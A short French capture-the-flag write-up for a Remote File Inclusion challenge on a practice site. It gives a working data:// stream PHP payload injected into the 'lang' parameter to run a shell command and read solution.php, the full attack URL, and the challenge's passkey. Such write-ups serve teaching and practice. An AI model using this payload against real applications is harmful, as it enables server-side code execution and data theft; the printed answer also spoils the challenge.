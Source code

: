 _RFI (Remote File Inclusion)_  est une vulnérabilité de sécurité qui peut survenir dans les applications web en utilisant Data Stream.
Il mentionne l'utilisation de Data Stream avec l'exemple suivant : *data://text/plain,<?php echo file_get_contents("solution.php"); ?>*.

Pour notre probleme, il faut voir le contenu de fichier *solution.php*

**Etape à suivre**
1. Allez dans le lien principal de [RFI](https://rfi.warchall.net/)
2. Cliquer sur le logo de langue (choix de langue) => exemple : [RFI langue](https://rfi.warchall.net/index.php?lang=en)
3. Effacer "en" et remplacer par la methode d'attaque Data stream => __data://text/plain,<?php echo`cat solution.php`; ?>__
[lien complet](https://rfi.warchall.net/index.php?lang=data://text/plain,%3C?php%20echo`cat%20solution.php`;%20?%3E)
4. Après, il donne ça : 
````sh
NOTHING HERE????

Warning: Trying to access array offset on value of type int in /home/level/15_live_rfi/www/index.php on line 36

Warning: Trying to access array offset on value of type int in /home/level/15_live_rfi/www/index.php on line 36
````
Il suggère que c'est pas là !!!

5. Donc, Il faut inspecter ce site et la solution est là (^,^)
````sh
<!--?php return 'Low_H4NGING_Fruit'; ?-->
````
The passkey is : **Low_H4NGING_Fruit**







